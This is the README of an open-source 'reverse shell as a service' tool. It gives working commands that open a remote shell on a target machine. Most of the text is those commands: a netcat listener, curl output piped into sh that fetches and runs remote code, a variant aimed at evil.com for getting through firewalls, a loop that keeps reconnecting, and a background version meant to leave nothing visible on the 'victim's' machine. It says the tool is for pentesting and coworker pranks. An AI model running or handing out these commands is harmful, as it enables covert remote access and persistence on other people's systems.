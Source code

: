 <div align="center">
	<br>
	<a href="https://reverse-shell.sh" target="_blank">
		<img width="128" src="favicon.ico" alt="keyv">
    </a>
</div>

# reverse-shell

> Reverse Shell as a Service - https://reverse-shell.sh


[![GitHub Donate](https://badgen.net/badge/GitHub/Sponsor/D959A7?icon=github)](https://github.com/sponsors/lukechilds)
[![Bitcoin Donate](https://badgen.net/badge/Bitcoin/Donate/F19537?icon=bitcoin)](https://lu.ke/tip/bitcoin)
[![Lightning Donate](https://badgen.net/badge/Lightning/Donate/F6BC41?icon=bitcoin-lightning)](https://lu.ke/tip/lightning)
[![Coverage Status](https://coveralls.io/repos/github/lukechilds/reverse-shell/badge.svg?branch=master)](https://coveralls.io/github/lukechilds/reverse-shell?branch=master)
[![npm](https://img.shields.io/npm/v/reverse-shell.svg)](https://www.npmjs.com/package/reverse-shell)

Easy to remember reverse shell that should work on most Unix-like systems.

Detects available software on the target and runs an appropriate payload.

## Usage

### 1. Listen for connection

On your machine, open up a port and listen on it. You can do this easily with netcat.

```shell
nc -l 1337
```
### 2. Execute reverse shell on target

On the target machine, pipe the output of https://reverse-shell.sh/yourip:port into sh.

```shell
curl https://reverse-shell.sh/192.168.0.69:1337 | sh
```

Go back to your machine, you should now have a shell prompt.

### 3. Don't be a dick

This is meant to be used for pentesting or helping coworkers understand why they should always lock their computers. Please don't use this for anything malicious.

## Demo

<img src="https://i.imgur.com/qqjhxAw.gif" width="808">

## Tips

### Hostname

You can use a hostname instead of an IP.

```shell
curl https://reverse-shell.sh/localhost:1337 | sh
```

### Remote connections

Because this is a reverse connection it can punch through firewalls and connect to the internet.

You could listen for connections on a server at evil.com and get a reverse shell from inside a secure network with:

```shell
curl https://reverse-shell.sh/evil.com:1337 | sh
```

### Reconnecting

By default when the shell exits you lose your connection. You may do this by accident with an invalid command. You can easily create a shell that will attempt to reconnect by wrapping it in a while loop.

```shell
while true; do curl https://reverse-shell.sh/yourip:1337 | sh; done
```

Be careful if you do this to a coworker, if they leave the office with this still running you're opening them up to attack.

### Running as a background process

The terminal session needs to be kept open to persist the reverse shell connection. That might be a bit of a giveaway if you're trying to prank coworkers.

The following command will run the reverse shell in a background process and exit the terminal, leaving no suspicious looking terminal windows open on the victim's machine.

Make sure you run this in a fresh terminal window otherwise you'll lose any work in your existing session.

```shell
sh -c "curl https://reverse-shell.sh/localhost:1337 | sh -i &" && exit
```

## License

MIT © Luke Childs

